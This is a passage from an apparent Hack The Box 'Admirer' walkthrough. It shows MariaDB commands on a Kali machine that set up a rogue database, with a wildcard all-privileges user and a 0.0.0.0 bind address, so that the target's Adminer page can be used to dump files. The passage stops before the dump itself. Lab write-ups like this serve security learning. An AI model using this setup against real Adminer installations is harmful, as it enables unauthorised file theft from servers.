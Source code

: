 Have a read of the blog post to get an understanding of how the exploit works. Basically we need to have a MySQL database going locally on the kali box, then login to this local MySQL database using the Adminer page and dump any files out.

{% highlight bash %}
kali@kali:~/HTB/Admirer$ sudo mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 47
Server version: 10.3.23-MariaDB-1 Debian buildd-unstable

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> create database admirer;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> CREATE USER 'final'@'%' IDENTIFIED BY 'final';
Query OK, 0 rows affected (0.017 sec)

MariaDB [(none)]> GRANT ALL ON * . * TO 'final'@'%';
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| admirer            |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.000 sec)

MariaDB [(none)]> use admirer
Database changed
MariaDB [admirer]> create table test (data VARCHAR(225));
Query OK, 0 rows affected (0.028 sec)

{% endhighlight %}

Next we need to change the bind address:

{% highlight bash %}
kali@kali:~$ sudo nano /etc/mysql/mariadb.conf.d/50-server.cnf
{% endhighlight %}

I changed the bind address to: ***0.0.0.0***

Next we need to restart the MySQL service:
